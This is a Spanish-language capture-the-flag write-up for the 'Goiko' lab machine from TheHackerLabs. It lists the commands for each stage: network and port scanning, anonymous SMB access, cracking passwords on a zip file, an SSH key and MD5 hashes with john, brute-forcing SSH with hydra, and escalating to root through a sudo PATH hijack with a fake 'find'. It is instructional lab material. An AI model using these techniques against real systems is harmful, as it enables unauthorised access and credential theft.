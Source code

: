 ```yaml
---
layout: post
title: "Goiko"
date: 2024-06-22 11:55:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Goiko </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/goiko/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>


![img](/notas/public/img/thehackerlabs/Goiko/host.png){:.margin}

**1\.** Escaneando la red para ver los hosts activos.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Goiko/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios del host objetivo.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 192.168.1.9`

![img](/notas/public/img/thehackerlabs/Goiko/nmap.png){:.margin}

**3\.** Ya que no tenemos mas, y menos credenciales, listo los archivos compartidos.

`smbclient -L //192.168.1.9/ -N`

![img](/notas/public/img/thehackerlabs/Goiko/smbclientL.png){:.margin}

**4\.** Veo los recursos en cada carpeta, en una de ellas encuentro credenciales.

`smbclient //192.168.1.9/menu -N`

`get \.cafesinleche`

`cat ./\\.cafesinleche || cat ./.cafesinleche`

![img](/notas/public/img/thehackerlabs/Goiko/cafesinleche.png){:.margin}

**5\.** Accedo por ssh pero no encuentro nada, mas que saber los usuarios de la maquina.

`ssh marmai@192.168.1.9`

`cat /etc/passwd | grep bash`

![img](/notas/public/img/thehackerlabs/Goiko/users.png){:.margin}

**6\.** Accedo por ftp, donde encuentro un comprimo y me lo descargo.

`ftp 192.168.1.9 -p 10021`

`dir`

`get BurgerWithoutCheese.zip`

![img](/notas/public/img/thehackerlabs/Goiko/zip.png){:.margin}

**7\.** Necesito una clave para descomprimir, procedo a crackear la contraseña.

`zip2john BurgerWithoutCheese.zip > keyzip`

`john --wordlist=/usr/share/wordlists/rockyou.txt keyzip`

![img](/notas/public/img/thehackerlabs/Goiko/zipkey.png){:.margin}

**8\.** Descomprimo y me da una lista de usuarios y una idrsa cifrada.

`unzip BurgerWithoutCheese.zip`

`cat users`

`cat id_rsa`

![img](/notas/public/img/thehackerlabs/Goiko/zipfiles.png){:.margin}

**9\.** Crackeando la contraseña del id_rsa.

`ssh2john id_rsa > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/Goiko/idrsakey.png){:.margin}

**10\.** Haciendo fuerza bruta al ssh.

`hydra -L users -p "babygirl" ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/Goiko/hydra.png){:.margin}

**11\.** Accedo por ssh como gurpreet y encuentro una nota.

`ssh gurpreet@192.168.1.9`

`cat nota`

![img](/notas/public/img/thehackerlabs/Goiko/sshgurpreet.png){:.margin}
![img](/notas/public/img/thehackerlabs/Goiko/gurpreetfiles.png){:.margin}

**12\.** Accedo a la base de datos, encuentro credenciales.

`mariadb -u gurpreet -p`

`show databases;`

`use secta;`

`show tables;`

`select * from integrantes;`

![img](/notas/public/img/thehackerlabs/Goiko/mariadb.png){:.margin}

**13\.** Crackeando los hashes en md5.

`nano hashes`

`john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=RAW-MD5`

![img](/notas/public/img/thehackerlabs/Goiko/johnhashes.png){:.margin}

**14\.** Migro al usuario nika, veo que puedo ejecutar un script bash como root.

`su nika`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Goiko/sudol.png){:.margin}

**15\.** Escalando privilegios a superusuario.

_15.1- Veo que el script ejecuta el comando find pero sin especificar su ruta_

`cat /opt/porno/watchporn.sh`

![img](/notas/public/img/thehackerlabs/Goiko/watchporn.png){:.margin}

_15.2- Voy a mi directorio de usuario y creo un find alternativo que ejecute una bash_

`cd`

`echo "/bin/bash" > find`

`chmod 777 find`

![img](/notas/public/img/thehackerlabs/Goiko/find.png){:.margin}
_15.3- Por ultimo ejecuto el script indicando nuestro PATH temporalmente, y obtenemos el usuario root_

`sudo PATH=/home/nika:$PATH /opt/porno/watchporno.sh`

![img](/notas/public/img/thehackerlabs/Goiko/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>